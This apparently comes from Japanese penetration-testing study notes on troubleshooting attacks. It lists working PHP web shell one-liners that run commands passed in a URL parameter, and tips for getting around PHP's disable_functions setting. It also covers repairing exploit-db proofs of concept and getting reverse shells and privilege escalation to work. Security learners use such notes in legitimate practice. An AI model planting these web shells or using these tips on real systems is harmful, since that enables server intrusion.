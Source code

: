 # ***<span style="color:blue;">トラブルシューティング１</span>***
## phpのweb shellを設置できるが動作しない   
```
Payload:<?php system($_GET['cmd']);?>
```
- 検証１：phpが実行出来ているのかを確認する
- 検証２：php_infoを実行してphpの設定（特にdisable_functions）を読む
- 検証３：disable\functionsに該当しない関数を使う   
```
Payload:<?php exec($_GET['cmd']);?>   
Payload:<?php passthru($_GET['cmd']);?>   
Payload:<?php shell_exec($_GET['cmd']);?>
```
# ***<span style="color:blue;">トラブルシューティング２</span>***
## PoCをexploit-dbで見つけて実行するが失敗する  
- 検証１：どこでエラーが起きているかを確認する   
	- レスポンスからデータを抽出する際にエラーが起きている
- 検証２：レスポンス内容を確認する   
	- PoCが期待するデータの有無を確認   
	- 変数の名前が書き換わっていた   
- 検証３：データの変数名を書き換えて再実行する   
	- エクスプロイトを修正する能力も必要　　　
# ***<span style="color:blue;">よくあるエラーとその解決法</span>***
- エクスプロイトは成功しているはずなのにシェルが返ってこない   
	- 待受るポートを80や443などのポートに変えてみる   
	- 接続するIPアドレスを過去のままにしていないか確認する   
- ファイルの転送が出来ない   
	- kaliのポートは開放しているが、apacheを動作させているか確認する   
- 何故か権限昇格のエクスプロイトが失敗する   
	- シェルのアップグレードを行っているか確認する   
- pythonでリバースシェルが取れない   
	- Python3を試す（片方しかない環境もある）